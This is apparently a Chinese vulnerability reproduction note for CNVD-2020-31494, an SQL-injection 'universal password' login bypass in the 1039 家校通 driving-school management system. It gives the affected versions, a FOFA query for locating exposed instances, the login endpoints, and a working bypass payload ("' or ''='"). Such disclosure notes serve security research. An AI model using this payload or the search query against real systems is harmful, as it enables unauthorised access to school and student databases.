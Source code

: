 # 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

```
1039家校通 v1.0 - v6.0
```

## FOFA

```
title="学员登录_1039家校通"
```

## 漏洞复现

管理员登录接口为

```plain
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101936922.png)



账号密码为如下即可登录

```plain
user:peiqi
pass:' or ''='
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101936366.png)